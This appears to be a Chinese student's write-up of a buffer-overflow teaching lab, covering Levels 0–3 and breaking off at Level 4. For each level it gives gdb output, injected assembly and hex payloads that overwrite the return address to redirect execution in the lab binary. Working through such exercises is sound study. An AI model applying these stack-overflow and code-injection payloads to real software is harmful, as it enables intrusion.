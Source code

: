 # buffer lab学习笔记

这个lab的任务和attach_lab一样，也是要求通过栈溢出控制程序流程完成相应任务
## Level 0: Candle (10 pts)
令test函数调用完getbuf函数后执行smoke函数
smoke函数源代码
```
void smoke()
{
printf("Smoke!: You called smoke()\n");
validate(0);
exit(0);
}
```
使用gdb查看smoke函数的地址
```
pwndbg> p smoke
$1 = {<text variable, no debug info>} 0x8048c18 <smoke>
```
然后计算栈溢出偏移是44，能覆盖到eip
构建如下格式的十六进制字符完成题目要求
```
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
18 8c 04 08
```

![avatar](https://github.com/AmaIIl/buffer-lab/blob/gh-pages/image1.png)

## Level 1: Sparkler (10 pts)
同level_0的要求，这次需要跳转到fizz函数内
fizz函数源码
```
void fizz(int val)
{
if (val == cookie) {
printf("Fizz!: You called fizz(0x%x)\n", val);
validate(1);
} else
printf("Misfire: You called fizz(0x%x)\n", val);
exit(0);
}
```
这里有个要求是需要让传参等于cookie，因为是32位的程序，所以是栈传参
并且在函数调用时先压入参数再压入返回地址，构造如下内容完成实验
```
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
42 8c 04 08
00 00 00 00
b8 da 18 28
```

![avatar](https://github.com/AmaIIl/buffer-lab/blob/gh-pages/image2.png)

## Level 2: Firecracker (15 pts)
题目要求和上面的一样，跳转到bang函数上
查看bang函数源码
```
int global_value = 0;
void bang(int val)
{
if (global_value == cookie) {
printf("Bang!: You set global_value to 0x%x\n", global_value);
validate(2);
} else
printf("Misfire: global_value = 0x%x\n", global_value);
exit(0);
}
```
可以看到需要让全局变量global_value的值和cookie值相同，并且writeup中的提示让我们进行code-injection
与attack-lab的做法一样，通过注入代码后控制eip跳转到我们注入代码的位置
构造如下汇编代码令global_value的值等于cookie
```
mov    $0x2818dab8, %eax //eax = cookie
mov    %eax, 0x0804D100  //0x0804D100 --> [global_value_address] = cookie
push   $0x08048c9d       //bang_address
ret

```
使用gcc将其转变为
```
b8 b8 da 18 
28 89 04 25
00 d1 04 08 
68 9d 8c 04 
08 c3
```
通过gdb调试获得注入代码的位置
```
pwndbg> x/20gx $esp
0x556837c8 <_reserved+1038280>:	0xf7fb6404556837d8	0xbf153c007f87426a
0x556837d8 <_reserved+1038296>:	0x2504892818dab8b8	0x048c9d680804d100
0x556837e8 <_reserved+1038312>:	0x000000000000c308	0x0000000000000000
```
可以看到注入位置在0x556837d8处，然后我们就可以构造hex完成本题了
```
b8 b8 da 18 
28 89 04 25
00 d1 04 08 
68 9d 8c 04 
08 c3 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
d8 37 68 55
```

![avatar](https://github.com/AmaIIl/buffer-lab/blob/gh-pages/image3.png)

## Level 3: Dynamite (20 pts)
本题要求：
```
修改getbuf()返回值为对应cookie，而不是1；
恢复test函数中的%ebp寄存器内容；
返回到接下去test()函数执行位置正常执行。
```
因为函数的返回值是使用eax寄存器实现的，所以我们可以使用上一个实验的办法进行代码注入后修改eax中的值为cookie再跳转回test函数
而要保证不破坏栈的布局则需要不修改ebp的值，通过gdb获取ebp的值

![avatar](https://github.com/AmaIIl/buffer-lab/blob/gh-pages/image4.png)

使用与上一个实验同样的步骤将下面的汇编代码转为16进制字符串
```
mov   $0x2818dab8, %eax //eax = cookie
push  $0x8048dbe        //test_address
ret
```
```
b8 b8 da 18 
28 68 be 8d 
04 08 c3 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
30 38 68 55
d8 37 68 55
```

![avatar](https://github.com/AmaIIl/buffer-lab/blob/gh-pages/image5.png)

## Level 4: Nitroglycerin (10 pts)

题目要求与level_3一致，不过比起level_3难度上升了一些
使用-n参数使程序调用testn和getbufn函数，


